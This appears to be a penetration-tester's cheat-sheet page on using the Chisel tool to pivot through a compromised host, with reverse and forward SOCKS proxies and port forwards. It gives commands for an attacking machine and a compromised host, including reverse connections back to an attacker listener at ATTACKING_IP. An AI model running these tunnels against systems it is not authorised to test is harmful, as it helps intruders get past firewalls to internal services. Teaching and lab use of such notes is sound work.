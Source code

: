 ```yaml
---
description: >-
  Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.
  Single executable including both client and server. Written in Go (golang).
  Chisel is mainly useful for passing through firewal
---
```


# Chisel

{% embed url="https://github.com/jpillora/chisel" %}

### Reverse SOCKS Proxy

Reverse SOCKS Proxy connects back from a compromised server to a listener waiting on our attacking machine.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
"Note !!"
Despite connecting back to port `LISTEN_PORT`, the actual proxy has been opened on 127.0.0.1:`XXXX`. 
As such, we will be using port `XXXX` when sending data through the proxy.
```

* Note the use of `R:socks` in this command. "R" is prefixed to remotes when connecting to a chisel server that has been started in reverse mode. It essentially tells the **chisel client** that the server **anticipates the proxy** or **port forward** to be made at the **client side** (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server).

***

### Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections).

```bash
#Compromised host
./chisel server -p LISTEN_PORT --socks5

#Attacking machine
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

//PROXY_PORT - port that will be opened for the proxy.
```

* For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

***

### Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

// LISTEN_PORT - the port that started the chisel server on
// LOCAL_PORT - the port that needs to be opened on the attacking machine to link with the desired target port.
```

* For example ,assume that the IP is `172.16.0.20`, the compromised server `172.16.0.5`, and our target is port `22` on `172.16.0.10`.
* The syntax for forwarding `172.16.0.10:22` back to port `2222` on our attacking machine would be as follows: `./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &` Connecting back to the attacking machine, functioning as a chisel server started with: `./chisel server -p 1337 --reverse &`
* This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

***

### Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

```bash
#Compromised host
./chisel server -p LISTEN_PORT

#Attacking machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

* For example, to connect to `172.16.0.5:8000` (the **compromised host** running a **chisel server**), forwarding our **local port** `2222` to `172.16.0.10:22` (our intended target), use: `./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

### Use Cases

